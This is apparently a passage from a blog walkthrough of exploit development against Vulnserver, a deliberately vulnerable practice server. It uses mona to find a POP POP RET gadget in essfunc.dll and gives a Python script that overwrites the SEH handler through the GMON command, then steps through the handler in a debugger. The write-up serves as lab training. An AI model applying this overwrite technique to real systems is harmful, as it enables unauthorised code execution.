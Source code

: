 Luckily, [mona](https://github.com/corelan/mona) has a command that automatically finds POP POP RET instructions for us. To find the address, type `!mona seh` and select one from the list which has protections disabled. In this case, we can use the `0x625010B4` address.

![Image](assets/img/blog/vulnserver-seh-overflow/image-76.png)

We insert the POP POP RET into the SEH and test whether the exception handler does indeed point to essfunc.dll

```py
#!/usr/bin/python
import sys, socket

ip = '10.21.1.15'
port = 9999

# Badchars: \x00
# POP POP RET: \x625010B4 - essfunc.dll

fuzz = "A" * 3515
nseh = "B" * 4
seh = "\xB4\x10\x50\x62" # POP POP RET
remainder = "C" * (4100-3515-4-4)

buffer = fuzz + nseh + seh + remainder

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip,port))
    s.send(('GMON /.:/' + buffer))
    print "[+] Sending buffer"
    s.close()
except:
    print "[-] Failed!"
    sys.exit()
```

![Image](assets/img/blog/vulnserver-seh-overflow/image-77.png)

Lets set a breakpoint on the `0x625010B4` address, and pass the exception (Shift + F9) then the programs hits the breakpoint. From there, we press F7 three times to follow where the POP POP RET leads to. Hint, it's the nSEH contents on the stack (BBBB).

![Image](assets/img/blog/vulnserver-seh-overflow/image-78.png)
